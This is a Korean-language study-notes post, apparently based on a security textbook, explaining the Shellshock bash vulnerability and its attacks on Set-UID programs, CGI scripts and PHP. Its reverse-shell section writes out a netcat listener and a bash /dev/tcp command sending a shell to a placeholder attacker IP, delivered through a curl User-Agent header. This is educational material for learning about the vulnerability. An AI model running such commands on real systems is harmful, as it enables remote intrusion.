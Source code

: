 ```yaml
---
title: Shellshock Attack
tags: security
key: page-shellshock_attack
cover: /assets/cover/cyber_security.png
mathjax: true
mathjax_autoNumber: true
---
```


## Shell이란?
* Shell이란 command-line interpreter이다. 유저와 OS사이에서 명령어들을 읽고 그것들을 실행시켜준다.
* sh, bash, csh, zsh, Windows PowerShell 등이 있다.
* 그 중 bash shell이 Linux계열에서 가장 많이 쓰인다.
* Shell 안에 존재하는 보안 취약점들을 ShellShock라고 부른다.

```shell
$ foo=' () { echo "hello world"; }'
$ echo $foo
() { echo "hello world"; }
$ declare -f foo
$ export foo
$ bash
(child):$ echo $foo

(child):$ declare -f foo
foo ()
{
    echo "hello world"
}
(child) :$ foo
hello world
```

* 여기서 foo= ' '를 해버리면 shell variable로 인식을 해버리지만 자식 bash에서는 shell function으로 작동되어 버린다.
* 그리고 { 왼쪽 오른쪽에 스페이스(```() { echo```)가 반드시 있어야지만 함수로 인식 할 수 있다.
* export 커맨드를 통해 입력된 쉘 변수는 자식 쉘에게 전달될 수 있다.
* 부모 shell에서 자식 shell로 환경변수를 전달하는 과정에서 ()이 있으면 자식 shell에게 쉘 변수가 아닌 쉘 함수로 전달한다.
* declare는 쉘 함수를 프린트 해준다.

## The Shellshock Bug

* Shellsock가 일어나는 이유는 bash 코드 안에서 parsing을 제대로 못하고 있기 때문이었다.
* 먼저 환견변수들 중에서 ```() {``` 로 시작하면 환경변수를 함수로 바꿔버린다.
```
foo='() { echo "test"; } -> foo () { echo "test"; }
```
* 환경 변수로 바꾸면서 만약 거기에 함수 정의만 있는 것이 아니라 커맨드가 있다면 그것마저 실행시켜버려서 여기서 버그가 발생하게 된 것이다.

## Shellshock Attack on Set-UID Programs

* bash shell을 호출하는 함수가 있는 프로그램이 있다면 그게 타겟 프로그램이 될 수 있다.
* 타겟 프로그램이 Set-UID Program일때 우리는 위의 버그 예제를 사용함으로써 root shell을 탈취할 수 있다.
* 이때, dash와 같은 shell이 realID와 eID가 다름으로써 환경 변수로부터 함수 변환이 안 되는 것을 방지 하지 않는 취약한 프로그램으로만 공격이 가능할 것이다.

## Shellshock Attack on CGI Programs

* Common Gateway Interface(CGI)는 웹 서버에서 다이나믹하게 웹 페이지를 생성해주는 프로그램을 돌릴 수 있게 도와주는 것이다.
* 많은 CGI가 shell script를 쓰는데 bash를 쓰는게 있다면 우리가 노리는 타겟이 된다.
* 서버쪽에서 cgi 프로그램이 아파치 서버에 요청을 하면 서버는 fork를 통해 새로운 프로세스를 실행하게 된다.
* #!/bin/bash로 시작하면 exec()가 /bin/bash를 실행하게 된다.
* 브라우저로 user-agent값을 바꿔서 보내는건 힘들기 때문에 curl로 -A 를 통해 shellshock를 일으키는게 좋고 우분투 시스템에서 대게 일반적으로 /var/www/SQL/collabtive/config/standard/config.php나 /var/www/SeedElgg/engine/settings.php 문서들을 보면 데이터베이스 아이디와 비번이 hard coding된 것을 볼 수 있다.

## Reverse Shell

* Reverse Shell이란 원격 컴퓨터에서 input output을 컨트롤 할 수 있게 해주는 shell process이다.
* netcat을 주로 쓰는데 ```$ nc -l 9090 -v```라는 명령어를 주면 9090번 포트에서 listen을 하고 있고 공격자 컴퓨터에서 이것을 먼저 실행시킨다.
* 이후 서버쪽에서 ```$ /bin/bash -i > /dev/tcp/<attacker ip>/9090 0<&1 2>&1```을 실행시켜준다.
* bash를 interactive하게 쓴다는 거고 거기의 stdout을 9090포트로 보내는데 stdout내용을 fd 0(stdin) 으로 사용하고 stderr는 stdout(fd 1)로 보내겠다는 의미이다.
* 서버에 보내는 명령어를 이전에 배운 shellshock를 통해 실행시키면 되는데 curl -A에 넣어서 보내면 된다.

## Remote Attack on PHP

* Shellshock 공격에는 다음 2가지 조건이 필요하다.
    1. invocation ofo bash
    1. passing of user data as environment variables
* PHP code에서 system()을 쓰고, shell 이 bash라면 1번 조건이 충족된다.
* system()을 통해서 environment variables을 user input에 의해 설정할 수 있다면 2번 조건이 충족된다.

## Refrence

* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)